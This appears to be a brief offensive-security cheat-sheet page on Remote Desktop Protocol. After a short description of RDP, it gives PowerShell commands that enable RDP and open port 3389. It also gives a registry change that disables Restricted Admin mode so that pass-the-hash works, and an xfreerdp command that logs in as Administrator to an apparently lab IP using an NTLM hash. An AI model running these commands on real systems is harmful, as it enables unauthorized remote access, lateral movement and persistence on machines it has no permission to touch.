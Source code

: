 Remote Desktop Protocol (RDP) is a Microsoft-developed proprietary protocol that enables users to access a graphical interface on a remote computer over a network. It serves as a prominent administration tool, empowering system administrators and managed service providers (MSPs) to remotely control multiple systems as if they were physically present. However, this convenience comes with a drawback, as RDP can become a potential entry point for cyberattacks, emphasizing the importance of secure configurations and precautions.

turn on RDP access(need privs)
```
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -Name "fDenyTSConnections" -Value 0
```
```
Start-Service TermService
```
```
New-NetFirewallRule -Name 'RDP-In' -DisplayName 'Remote Desktop (TCP-In)' -Enabled True -Direction Inbound -Protocol TCP -Action Allow -LocalPort 3389
```
DisableRestrictedAdmin Must be set to 0 to allow RPD with PTH.
```
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

### Logging in
![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/7704e78f-7eee-4558-bebe-f7f26e385a29)

```
xfreerdp  /v:10.129.204.23 /u:Administrator /pth:30B3783CE2ABF1AF70F77D0660CF3453
```
